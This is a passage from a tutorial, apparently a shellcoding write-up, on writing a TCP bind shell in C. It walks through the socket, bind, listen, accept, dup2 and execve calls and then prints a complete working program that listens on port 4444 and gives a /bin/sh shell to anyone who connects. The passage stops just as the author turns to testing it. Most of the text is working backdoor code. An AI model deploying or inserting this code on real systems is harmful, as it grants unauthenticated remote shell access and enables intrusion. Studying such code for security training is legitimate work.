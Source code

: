 ```c
bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
```
4. Listen for incoming connections on the TCP-IP Socket.  
```c
listen(ipv4Socket, 0);
```
5. Accept the incoming connections, on the TCP-IP Socket, and create a new connected session.  
```c
int clientSocket = accept(ipv4Socket, NULL, NULL);
```
6. Transfer Standard-Input, Standard-Output, and Standard-Error to the connected session.  
```c
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```
7. Spawn a `/bin/sh` shell for the client, in the connected session.
```c
execve("/bin/sh", NULL, NULL);
```

## Creating a TCP Bind Shell in C
This is our C program to create a TCP Bind Shell.  

```c
// Filename: basicBindShell.c
// Author:   boku
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h> /* superset of previous */
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in ipSocketAddr = {
    .sin_family = AF_INET,
    .sin_port = htons(4444),
    .sin_addr.s_addr = htonl(INADDR_ANY)
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/sh", NULL, NULL);
}
```

Great, before we dive into how this was created, lets test it to make sure it works.
